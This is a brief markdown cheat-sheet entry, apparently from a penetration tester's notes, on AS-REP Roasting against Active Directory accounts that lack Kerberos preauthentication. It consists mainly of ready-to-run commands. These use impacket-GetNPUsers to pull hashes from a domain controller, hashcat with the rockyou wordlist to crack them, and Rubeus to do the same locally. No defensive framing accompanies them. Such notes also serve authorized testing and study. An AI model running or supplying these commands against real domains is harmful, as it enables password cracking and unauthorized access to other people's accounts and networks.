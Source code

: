 # AS-REP Roasting

Targets user accounts in an Active Directory environment with the "Do not require Kerberos preauthentication" setting enabled. This allows us to target any known user without prior authentication.

Perform remotely with [GetNPUsers](../../1%20Tools/Extra%20Impacket/GetNPUsers.md)

```bash
impacket-GetNPUsers -request -dc-ip $IP -outputfile hashes.asreproast $DOMAIN/$USER
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
```

Perform locally with [Rubeus](../../1%20Tools/Local/Rubeus.md)

```
.\Rubeus.exe asreproast /nowrap
```

